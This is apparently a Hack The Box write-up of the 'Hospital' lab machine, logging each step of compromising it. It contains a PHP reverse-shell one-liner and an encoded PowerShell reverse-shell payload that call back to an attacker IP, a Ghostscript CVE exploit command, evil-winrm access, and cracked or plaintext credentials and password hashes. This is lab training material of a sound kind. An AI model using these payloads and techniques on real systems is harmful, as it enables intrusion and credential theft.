HTB: Hospital
Shell as www-data
Port 8080 is a webpage with a login page. We can see admin is taken with 6 characters minimum for the password.

Port 443 is a webpage as well with a login

Logo points to roundcube webmail

We can create an account and login and upload files
http://10.10.11.241:8080/index.php

Fuzzing the uploads shows us a bunch of php files can be uploaded but only .phar files render the code. We can see this by the response.
renders php code as we dont see it in the response

php code rendered in response so its not being executed

I tried for quite a while to get a shell but nothing was working. Eventually I saw an error that said “powershell not found” and I realized the website is running on a linux machine, probably in docker. I then uploaded a webshell where we can get a reverse shell using a php one liner.
php -r '$sock=fsockopen("10.10.14.4",443);exec("/bin/sh -i <&3 >&3 2>&3");'

Using linpeas we can get creds for the mysql database
/var/www/html/config.php:define('DB_PASSWORD', 'my$qls3rv1c3!');
/var/www/html/config.php:define('DB_USERNAME', 'root');
root:my$qls3rv1c3!
Dumping users table
| id | username | password | created_at |
+----+----------+--------------------------------------------------------------+---------------------+
| 1 | admin | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
| 2 | patient | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
| 3 | test | $2y$10$AAGf0EuNrVSWiwVxaotTau97A63yqbLtFMDg0CvHcvPLSfIghFTUy | 2024-10-17 09:35:31
Cracked hashes
admin:123456
patient:patient
Host is using an outdated kernel and we can priv esc using
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh

Now that we are root we can copy the /etc/passwd and /etc/shadow file and crack the password for drwilliams
echo 'drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash' > drwilliams_passwdecho 'drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::' > drwilliams_shadowunshadow drwilliams_passwd drwilliams_shadow > drwilliams_unshadowed.txt
drwilliams:qwe123!@#
Shell as drbrown
We can now login to the webmail

The only thing here is an email referencing an eps file and ghost script

We can find a CVE which has RCE
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
It took me a million payloads but I eventually got a working on
python CVE_2023_36664_exploit.py --generate --filename needle --extension eps --payload "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"Sending the email

shell as drbrown

Inside of the ghostscript.bat file we have the password for drbrown

drbrown:chr!$br0wn
We can now remote in with evil-winrm
evil-winrm -i 10.10.11.241 -u drbrown -p 'chr!$br0wn'
Shell as System
Couldnt figure out the priv esc without a hint. Looks like we were supposed to guess roundcube was running as system and upload a web shell. Spent many many hours on this and still not sure how we were supposed to figure this out. I will watch ippsecs video to see how he explains it.
Its running in xampp\htdocs



